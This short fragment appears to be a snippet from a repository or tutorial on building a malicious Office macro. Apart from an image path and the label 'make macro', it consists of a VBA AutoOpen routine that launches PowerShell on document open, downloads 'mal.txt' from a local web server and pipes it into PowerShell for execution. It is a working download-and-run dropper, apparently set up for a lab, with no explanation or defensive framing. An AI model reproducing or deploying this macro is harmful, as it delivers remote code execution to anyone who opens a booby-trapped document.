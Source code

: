 make macro :

Sub AutoOpen()
    Shell ("powershell /c ""(Invoke-WebRequest ""http://127.0.0.1:8080/mal.txt"").Content | powershell"" ")
End Sub

